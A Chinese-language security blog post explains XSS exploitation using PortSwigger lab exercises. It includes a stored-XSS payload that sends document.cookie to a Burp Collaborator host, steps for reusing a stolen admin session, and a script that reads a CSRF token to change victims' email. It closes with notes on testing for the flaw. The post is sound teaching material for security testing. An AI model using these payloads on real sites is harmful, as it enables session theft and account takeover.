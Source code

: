 ```yaml
---
title: "XSS 漏洞知解 123"
author: Neal
tags: [reflection xss,xss]
keywords: [xss,web安全,渗透测试,反射型XSS,存储型XSS]
categories: [web安全]
date: "2020-01-04" 
---
```


跨站脚本攻击（Cross-Site Scripting），为了避免与 CSS 混淆，一般简称为 XSS。XSS 作为一种典型的主要可以分为 3 种：

* 反射型 XSS
* 存储型 XSS
* DOM 型 XSS

关于这 3 种 XSS 类型的区别，在这就不展开了，本文主要讲解 XSS 漏洞的利用场景以及如何测试反射型 XSS，当然反射型 XSS 漏洞的测试和其它 XSS 漏洞类型的测试存在很多共同之处的。通常来说，通过 XSS 漏洞攻击者可以在受害者机器上执行任何脚本的话，包括：

* 可以执行受害者可以执行的任何操作
* 可以浏览受害者可以浏览的任何内容
* 可以修改受害者可以修改的任何信息
* 可以通过最初的受害者与应用中其他用户交互，从而发起对其他用户的攻击

不过值得注意的是，反射型 XSS 总漏洞利用过程中也会遇到较多的障碍，经常可能会遇到很多限制：

* cookie 设置为 httponly，无法通过 JS 直接操控 cookie
* 用户输入的内容被进行过滤或者编码
* 受害者可能并没有登录应用，或者应用用户会话与特定的因素有绑定关系，比如 IP 地址或者 MAC 地址，这种情况比较少见

## 典型利用场景

XSS 的利用场景其实是五花八门的，可以说只要你敢想，搞不好你就可以做得到。这里，我们可以选择两个最典型的利用场景进行讲解。在这里我主要使用 PortSwigger 的应用安全学院里面的 lab 进行讲解。

### 盗取 cookie

通过 XSS 漏洞盗取 cookie 可以说是最典型的利用场景了。不过现在随着 HttpOnly 的广泛应用，这一利用场景也产生了一些限制。但是 HttpOnly 也并不能完全保证 XSS 漏洞的防范，因为 HttpOnly 理论上应该覆盖所有的敏感 cookie，如果有一处没有覆盖到，就有被攻击的可能性。另外一方面，通过结合 CORS 也有突破限制的可能性。还有一个实际情况是，仍然有很多应用并没有使用 HttpOnly，本节也主要是针对这一情形的具体利用。

假设有一个博客平台，目前我们已经发现博文的评论处存在存储型 XSS 漏洞。那么如果其它用户打开这一篇博文，就可以通过这个漏洞让这名用户执行任意 JS 脚本，基本上就可以进行任何操作。如果这一名用户是管理员的话，那么危害性就更大，理论上这个管理用在这个博客可以执行的任何操作，攻击者都可以实现。这个攻击场景主要分为三步：

1. 攻击者创建一个 Web 服务，需要保证受害者和这个服务之间是连通的。
2. 注入 XSS 的 payload，实现通过 JS 获取受害者 cookie，并发送给攻击者创建的服务
3. 攻击者通过获取的 cookie 则可以成为应用的合法用户并执行任何操作

创建 web 服务非常简单，可以使用 python 命令既可以创建服务，`python -m SimpleHTTPServer 80`。这样就可以指定一个监听 80 端口的 web 服务。其实 Burp 提供了一个非常实用的利用功能，通过 Burp Collobrator Client 就可以创建一个开放在外网的 web 服务，这样如果你在日常测试中，就无须自己准备一个带有固定 IP 的服务器来创建服务了。

![3ExZJH.png](https://s2.ax1x.com/2020/02/19/3ExZJH.png)

![3Exlef.png](https://s2.ax1x.com/2020/02/19/3Exlef.png)

进入到 Collobrator Client，点击 Copy to clipborad 就可以将服务地址复制到剪切板。我们可以使用 curl 来进行测试：

![3tuMAU.gif](https://s2.ax1x.com/2020/02/25/3tuMAU.gif)

我们可以看到在 client 中可以看到 DNS 请求以及相应的 HTTP 请求，这样通过 Collobrator Client 就不需要在外网自己的服务器下搭建服务。让我们继续重现上面的利用过程，首先我们先准备好要利用的 XSS 的 payload：

```
<script>
fetch('https://d8mzva8z7ou9zrnqkgz49jltyk4asz.burpcollaborator.net',{
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
})
</script>
```

然后我们只需要在 Collobrator Client 等待请求过来，不出意外的话，我们可以看到 administrator 的 cookie。

![3ax38K.png](https://s2.ax1x.com/2020/02/27/3ax38K.png)

下面我们只需要打开浏览器开发者工具，总控制台中输入 `document.cookie = 'session=Xn8ow3pdmd6LWktVZPJtBlI9yKzIKUX3'`，刷新一下页面，我们就成为管理员了。

![3axGvD.png](https://s2.ax1x.com/2020/02/27/3axGvD.png)

### 通过 XSS 来实现 CSRF

上述的攻击手法有一定的限制之处，而且容易被受害者发现。而配合 CSRF 漏洞，攻击者可以实现执行受害者可以执行的任何操作，并且隐秘性更强。比如我们可以修改用户的邮箱，从而可以充值用户密码。如果受害者是管理员的话，甚至往往可以实现添加用户，删除用户。CSRF 漏洞的防御机制一般是通过 token 来进行防御，但是如果你的应用有 XSS 漏洞，那么这种防御机制就会失效，因为通过 JS 我们就可以获取 token。下面继续通过一个 lab 来演示这种类型的攻击方式：

这个 lab 和之前的一样，这一次我们需要通过 XSS 漏洞来配合 CSRF 漏洞来实现修改受害者的邮箱。首先我们可以通过一个普通用户登录应用，然后发现有一个可以修改邮箱的功能。

![3cJFkq.png](https://s2.ax1x.com/2020/03/01/3cJFkq.png)

通过 Burp 可以捕获修改邮箱的请求：

```
POST /email/change-email HTTP/1.1
Host: acee1f9f1f96dfe38027996900d70058.web-security-academy.net
Connection: close
Content-Length: 57
Cache-Control: max-age=0
Origin: https://acee1f9f1f96dfe38027996900d70058.web-security-academy.net
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: https://acee1f9f1f96dfe38027996900d70058.web-security-academy.net/email
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,ja;q=0.7,zh-TW;q=0.6
Cookie: session=J7wtDYrnotYBeGxHRbxRQAjwWoER6iPb

email=bbb%40bbb.com&csrf=xmLrs2P4dtFVurZlCUVpJsBnvaGlL4T1
```

可以看到这个修改邮箱的请求包含两个参数，即 `email` 以及 `csrf`，很明显，这个请求是使用了 CSRF 防御的。那么现在可以思考一下如何来执行 CSRF。

1. 首先请求修改邮箱功能的页面，获取页面响应。
2. 在页面响应中匹配 csrf，然后提交修改邮箱的 POST 请求。

![3ctH0J.png](https://s2.ax1x.com/2020/03/01/3ctH0J.png)

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = function() {
    var csrf = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open("POST", "/email/change-email", true);
    changeReq.send("csrf=" + csrf + "&email=hack@hack.com");
}
req.open("GET", "/email", true)
req.send()
</script>
```

只要把上述的 payload 提交到 comment 中，然后提交，就可以实现任何访问这个博客评论的用户都会成为受害者，将其邮箱修改为 `hack@hack.com`。

## XSS 漏洞的测试

接下来可以聊一聊如何测试 XSS 漏洞。不管是手工测试亦或是现在比较流行的被动扫描器的自动化类型的测试，其测试方式基本也是差不多的。

* 测试每一个输入点，每一个 HTTP 请求的输入点都是可以进行测试的，包括 URL 中的参数，以及 BODY，其实 HTTP 头也可以进行测试，不过在实际中，通过请求头的参数来触发 XSS 漏洞的不是太常见。
* 通过输入点提交随机字符串，这么多的目的主要是为了验证通过输入点的 payload 是否影响最终的响应。这里，其实对于自动化类型的测试还有一个小技巧，就是可以在随机字符串中可以去包含一些特殊符号，从而判断应用有没有对相应的符号进行转义，比如单引号、尖括号之类的。
* 找到 payload 在响应中的上下文。这一点其实比较重要的，这关系到你该如何去利用 XSS 漏洞。因为输入点映射在不同的位置，会影响到漏洞的利用方式。比如你的输入点的 payload 可以对应于 HTML 标签中、HTML 标签中的属性，或者是映射到 JS 文件中，通过这些，你可以更好地知道如何去利用 XSS 漏洞。
* 下面就是利用一些常见的 XSS payload 来进行测试，这里可以推荐 Burp 提供的 [XSS payload](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)。里面对于不同的浏览器，不同的标签，甚至不同的属性，都有对应的 payload。当然，很有可能这些 payload 并不能直接成功，这个时候可能还需要结合上一点一起看一看来做相应的调整。不过这个 cheetsheet 里面可能已经足够了，可能还是最终没有找到合适的 payload。

对于漏洞的验证，人工测试往往比较直观，大多数都是通过 `alert` 弹窗的形式来验证漏洞是否存在。而对于自动化的漏洞测试工具而言，对于 XSS 漏洞的验证方式可能就会稍微复杂一点，包括验证响应的 `Content-Type`，然后接着验证输入点的输入是如何作用于响应中，通过对响应的解析从而验证漏洞是否利用成功。另外还有一种方式是通过 headless 浏览器去实现，让后来监听弹窗事件，这种测试方式接近于人工测试，但也更加消耗时间和性能。

## 总结

XSS 漏洞作为 Web 应用最为典型的漏洞之一，屡出不鲜。因为 XSS 的漏洞往往要考虑很多因素，包括转义、过滤、以及考虑到应用自身业务的需求，从而避免业务需求和防御需求的冲突。并且防御必须覆盖到应用的每一个输入点，即使仅有一个输入点存在漏洞，应用就存在被攻破的可能性。

